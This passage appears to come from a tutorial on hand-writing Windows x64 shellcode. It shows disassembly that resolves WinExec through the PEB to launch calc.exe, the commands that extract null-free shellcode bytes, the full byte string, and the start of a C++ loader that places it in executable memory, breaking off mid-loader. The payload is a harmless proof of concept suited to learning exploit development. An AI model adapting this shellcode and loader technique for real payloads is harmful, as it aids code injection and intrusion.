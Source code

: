 ```nasm
  9e:   44 8b 5a 1c             mov    0x1c(%rdx),%r11d
  a2:   4d 01 c3                add    %r8,%r11
  a5:   43 8b 44 ab 04          mov    0x4(%r11,%r13,4),%eax
  aa:   4c 01 c0                add    %r8,%rax
  ad:   50                      push   %rax
  ae:   41 5f                   pop    %r15
  b0:   48 31 c0                xor    %rax,%rax
  b3:   50                      push   %rax
  b4:   48 b8 63 61 6c 63 2e    movabs $0x6578652e636c6163,%rax
  bb:   65 78 65
  be:   50                      push   %rax
  bf:   48 89 e1                mov    %rsp,%rcx
  c2:   48 31 d2                xor    %rdx,%rdx
  c5:   48 ff c2                inc    %rdx
  c8:   48 83 ec 30             sub    $0x30,%rsp
  cc:   41 ff d7                call   *%r15
```
**Let's convert to shellcode now.  I'll use Linux this time around and use the following commands:**

- nasm -fwin64 winexec_nonulls.asm -o winexec_nonulls.o

- for i in $(objdump -D winexec_nonulls.o \| grep "^ " \| cut -f2); do echo -n "\x$i" ; done

**here's what I got:**
```nasm
"\x48\x83\xec\x28\x48\x83\xe4\xf0\x48\x31\xc9\x65\x48\x8b\x41\x60\x48\x8b"
"\x40\x18\x48\x8b\x70\x10\x48\x8b\x36\x48\x8b\x36\x48\x8b\x5e\x30\x49\x89"
"\xd8\x8b\x5b\x3c\x4c\x01\xc3\x48\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9"
"\x08\x8b\x14\x0b\x4c\x01\xc2\x44\x8b\x52\x14\x4d\x31\xdb\x44\x8b\x5a\x20"
"\x4d\x01\xc3\x4c\x89\xd1\x48\xb8\x57\x69\x6e\x45\x78\x65\x63\x90\x48\xc1"
"\xe0\x08\x48\xc1\xe8\x08\x50\x48\x89\xe0\x48\x83\xc4\x08\x67\xe3\x17\x31"
"\xdb\x41\x8b\x5c\x8b\x04\x4c\x01\xc3\x48\xff\xc9\x4c\x8b\x08\x4c\x39\x0b"
"\x74\x03\x75\xe6\xcc\x51\x41\x5f\x4c\x89\xf9\x4d\x31\xdb\x44\x8b\x5a\x24"
"\x4d\x01\xc3\x48\xff\xc1\x66\x45\x8b\x2c\x4b\x4d\x31\xdb\x44\x8b\x5a\x1c"
"\x4d\x01\xc3\x43\x8b\x44\xab\x04\x4c\x01\xc0\x50\x41\x5f\x48\x31\xc0\x50"
"\x48\xb8\x63\x61\x6c\x63\x2e\x65\x78\x65\x50\x48\x89\xe1\x48\x31\xd2\x48"
"\xff\xc2\x48\x83\xec\x30\x41\xff\xd7";
```
**Let's try using it in some actual code to make sure it works as intended 😸**

(I don't have a buffer overflow exploit I can use this on at the moment, otherwise we could give that a go lol)

```c++
#include <windows.h>
#include <iostream>

// Shellcode (as given, formatted for clarity)
unsigned char shellcode[] =
"\x48\x83\xec\x28\x48\x83\xe4\xf0\x48\x31\xc9\x65\x48\x8b\x41\x60\x48\x8b"
"\x40\x18\x48\x8b\x70\x10\x48\x8b\x36\x48\x8b\x36\x48\x8b\x5e\x30\x49\x89"
"\xd8\x8b\x5b\x3c\x4c\x01\xc3\x48\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9"
"\x08\x8b\x14\x0b\x4c\x01\xc2\x44\x8b\x52\x14\x4d\x31\xdb\x44\x8b\x5a\x20"
"\x4d\x01\xc3\x4c\x89\xd1\x48\xb8\x57\x69\x6e\x45\x78\x65\x63\x90\x48\xc1"
"\xe0\x08\x48\xc1\xe8\x08\x50\x48\x89\xe0\x48\x83\xc4\x08\x67\xe3\x17\x31"
"\xdb\x41\x8b\x5c\x8b\x04\x4c\x01\xc3\x48\xff\xc9\x4c\x8b\x08\x4c\x39\x0b"
"\x74\x03\x75\xe6\xcc\x51\x41\x5f\x4c\x89\xf9\x4d\x31\xdb\x44\x8b\x5a\x24"
"\x4d\x01\xc3\x48\xff\xc1\x66\x45\x8b\x2c\x4b\x4d\x31\xdb\x44\x8b\x5a\x1c"
"\x4d\x01\xc3\x43\x8b\x44\xab\x04\x4c\x01\xc0\x50\x41\x5f\x48\x31\xc0\x50"
"\x48\xb8\x63\x61\x6c\x63\x2e\x65\x78\x65\x50\x48\x89\xe1\x48\x31\xd2\x48"
"\xff\xc2\x48\x83\xec\x30\x41\xff\xd7";

int main() {
    void* exec_mem = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```
